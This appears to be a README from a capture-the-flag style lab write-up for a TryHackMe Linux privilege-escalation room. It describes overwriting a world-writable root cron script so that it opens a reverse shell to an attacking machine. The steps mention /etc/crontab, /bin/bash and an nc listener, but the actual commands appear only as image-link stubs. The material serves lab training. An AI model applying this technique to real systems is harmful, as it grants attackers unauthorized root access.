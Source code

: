 # cron-overwrite

*Credit to Tib3rius* | https://tryhackme.com/room/linuxprivesc

Given a cron job that runs a script with root privileges and is world-writeable.
Overwrite the script with with a bash script that connects back to the attacking machine with a reverse shell with root permissions.

1. View the contents of the system-wide crontab:

link to cat /etc/crontab

2. Locate the full path of the overwrite.sh file:

link to locate overwrite.sh

3. Check the file permissions of overwrite.sh:

* Note that the file is world-writeable

link to ls -l

4. Replace the contents of the overwrite.sh file with the following (IP of attacking machine):

link to /bin/bash

5. Get reverse shell with root privilegs

link to nc -nlvp
